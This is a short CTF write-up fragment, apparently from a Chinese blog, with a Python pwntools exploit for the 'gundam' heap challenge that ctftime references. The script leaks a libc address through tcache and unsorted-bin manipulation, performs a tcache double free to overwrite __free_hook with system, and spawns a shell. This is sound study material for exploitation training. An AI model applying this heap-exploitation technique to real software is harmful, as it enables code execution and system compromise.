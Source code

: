 ```python
def build(name):
    io.sendlineafter("choice : ", '1')
    io.sendlineafter("gundam :", name)
    io.sendlineafter("gundam :", '0')

def visit():
    io.sendlineafter("choice : ", '2')

def destroy(idx):
    io.sendlineafter("choice : ", '3')
    io.sendlineafter("Destory:", str(idx))

def blow_up():
    io.sendlineafter("choice : ", '4')

def leak():
    global __free_hook_addr
    global system_addr

    for i in range(9):
        build('A'*7)
    for i in range(7):
        destroy(i)      # tcache bin
    destroy(7)          # unsorted bin

    blow_up()
    for i in range(8):
        build('A'*7)

    visit()
    leak =  u64(io.recvuntil("Type[7]", drop=True)[-6:].ljust(8, '\x00'))
    libc_base = leak - 0x3dac78     # 0x3dac78 = libc_base - leak
    __free_hook_addr = libc_base + libc.symbols['__free_hook']
    system_addr = libc_base + libc.symbols['system']

    log.info("libc base: 0x%x" % libc_base)
    log.info("__free_hook address: 0x%x" % __free_hook_addr)
    log.info("system address: 0x%x" % system_addr)

def overwrite():
    destroy(2)
    destroy(1)
    destroy(0)
    destroy(0)      # double free

    blow_up()
    build(p64(__free_hook_addr))    # 0
    build('/bin/sh\x00')            # 1
    build(p64(system_addr))         # 2

def pwn():
    destroy(1)
    io.interactive()

if __name__ == "__main__":
    leak()
    overwrite()
    pwn()
```


## 参考资料
- https://ctftime.org/task/5924
